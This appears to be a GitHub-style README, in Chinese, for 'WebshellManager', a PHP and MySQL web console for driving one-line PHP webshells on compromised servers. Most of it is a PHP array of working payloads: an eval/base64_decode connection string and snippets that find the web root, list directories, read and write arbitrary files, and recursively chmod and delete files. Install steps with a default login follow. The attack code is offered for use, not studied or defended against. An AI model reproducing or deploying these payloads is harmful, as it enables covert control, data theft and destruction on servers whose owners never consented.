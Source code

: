 ## WebshellManager

> 一款无聊的时候用PHP+Mysql写的一句话WEB端管理工具 名字叫w8ay好了 

## 介绍

- 目前仅支持对PHP的一句话进行操作
- 完成文件管理，支持对webshell中的文件进行增、删、改、查操作 可多选操作
- 支持自定义命令
- 完成多用户系统 注册 登陆


##自定义PHP命令

第二版本完成了自定义命令 在`include\model\PHPShell_Build_mothod.php`中自定义命令即可，将自动完成编码加密过程

```
var $phpshell = array(
		'link' => '{PASS}=%40eval%01%28base64_decode%28%24_POST%5Bz0%5D%29%29%3B&z0=',//连接前缀

		'safe' => "@ini_set('display_errors','0');@set_time_limit(0);@set_magic_quotes_runtime(0);",//payload前缀

		'flag_left' => 'echo("->|");',//左标志位

		'flag_right' => 'echo("|<-");die();',//右标志位

		'GetWebRoot' => '$D=dirname($_SERVER["SCRIPT_FILENAME"]);if($D==""){$D=dirname($_SERVER["PATH_TRANSLATED"]);}$arr = array("WebRoot" => $D);echo json_encode($arr);',//获取一句话目录
		
		'GetWebDiskFileList' => '$D=base64_decode($_POST["z1"]);$F=opendir($D);
if($F==NULL){echo("ERROR:// Path Not Found Or No Permission!");}else{$tmparr = array();	while($N=readdir($F)){$P=$D."/".$N;$T=date("Y-m-d H:i:s",filemtime($P));$E=substr(base_convert(fileperms($P),10,8),-4);$arr = array("time" => $T, "size" => filesize($P),"root" => $E,"path" =>urlencode(is_dir($P)?$N."/":$N));$tmparr[] = $arr;}echo json_encode($tmparr);closedir($F);};',//获取磁盘文件
		
		'GetWebFileContent' => '$F=base64_decode($_POST["z1"]);$P=@fopen($F,"r");echo(@fread($P,filesize($F)));@fclose($P);',//得到文件内容

		'CreateAndSaveFile' => 'echo @fwrite(fopen(base64_decode($_POST["z1"]),"w"),base64_decode($_POST["z2"]))?"1":"0";',//创建文件

		'DeleteFile' => 'function df($p){$m=@dir($p);while(@$f=$m->read()){$pf=$p."/".$f;if((is_dir($pf))&&($f!=".")&&($f!="..")){@chmod($pf,0777);df($pf);}if(is_file($pf)){@chmod($pf,0777);@unlink($pf);}}$m->close();@chmod($p,0777);return @rmdir($p);}$F=get_magic_quotes_gpc()?stripslashes($_POST["z1"]):$_POST["z1"];if(is_dir($F))echo(df($F));else{echo(file_exists($F)?@unlink($F)?"1":"0":"0");}',//删除文件
		);
```


## 截图

![](https://cloud.githubusercontent.com/assets/18695984/20028030/ab8cc3cc-a360-11e6-999b-c3cdc93cdef5.jpg)
![](https://cloud.githubusercontent.com/assets/18695984/20028031/aed8235a-a360-11e6-8c86-635d0714eb51.jpg)
![](https://cloud.githubusercontent.com/assets/18695984/19856900/797cceb6-9fb6-11e6-85b3-762c3f3b77d0.jpg)
![](https://cloud.githubusercontent.com/assets/18695984/19856909/8126a13c-9fb6-11e6-9251-8db0424e4f2b.jpg)


## 安装

- 导入文件中的 w8_webshell.sql  
- 按注释修改 config.php  
- 安装成功  
- 默认账号密码 w8ay@qq.com w8ay

